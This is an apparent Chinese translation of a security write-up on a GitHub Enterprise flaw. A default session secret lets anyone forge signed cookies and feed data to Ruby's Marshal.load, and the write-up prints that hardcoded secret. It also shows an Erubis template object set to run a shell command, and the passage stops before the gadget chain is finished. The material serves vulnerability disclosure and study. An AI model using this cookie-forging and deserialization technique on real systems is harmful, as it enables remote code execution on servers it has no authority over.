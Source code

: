 它根据“- -”对字符串进行拆解，处理反向url转义，并使用base64对结果进行解码，从而得到最终的二进制数据和签名。



```
data, hmac = cookie.split("--")
data = CGI.unescape(data).unpack("m").first
# =&gt; data = "x04b{aI"x0Fsession_idx06:x06ETI"E4ab30b223f91330ab2bc27b025
# 9f58913068ce0ef934805cd0ddbdd0a3711078x06;x00FI"x0Fcsrf.tokenx06;x00TI"
# 1J38+lLiRzd7vDk6ewSuyHXr44jAessc3VEW0+b27igM=x06;x00F"
# =&gt; hmac = "5eb02d2e1b1845e9f766c2282de2d19dc64d0fb9
```

然后计算预期的hmac： 



```
secret = "641dd6454584ddabfed6342cc66281fb"
expected_hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
```

如果计算出的哈希值与预期的哈希值相匹配的话，则将其传递给Marshal.load。否则，将其丢弃： 



```
if expected_hmac == hmac
  session = Marshal.load(data)
end
# =&gt; {"session_id" =&gt; "4ab30b223f91330ab2bc27b0259f58913068ce0ef934805cd0ddbdd0a3711078",
#     "csrf.token" =&gt; "J38+lLiRzd7vDk6ewSuyHXr44jAessc3VEW0+b27igM="}
```



**漏洞分析 **

上面的代码存在两个问题。

ENV ["ENTERPRISE_SESSION_SECRET"]从未进行设置，因此该密钥默认为上述值。您可以给任意Cookie进行签名并根据需要设置会话ID。但这并没有什么帮助，因为会话ID是32个随机字节。

不过，你现在可以将任意数据输入Marshal.load，因为你可以伪造一个有效的签名。与JSON不同，Marshal格式不仅允许使用散列、数组和静态类型，而且还允许使用ruby对象。这就会导致远程代码执行漏洞，这一点将在下面介绍。

**制作漏洞代码**

要想运行任意代码，我们需要生成运行反序列化代码的Marshal.load的输入。为此，我需要精心构造获访问该对象的代码。这需要分两步完成：

**恶意ERb模板**

解析.erb模板的方式是Erubis读取模版并生成一个Erubis :: Eruby对象，该对象保存有位于@src实例变量中的模板代码。所以如果我们把自己的代码放入那里的话，那么只需要设法调用object.result，我们的代码就会得到运行。



```
erubis = Erubis::Eruby.allocate
erubis.instance_variable_set :@src, "%x{id &gt; /tmp/pwned}; 1"
# erubis.result would run the code
```

**一个邪恶的InstanceVariableProxy**
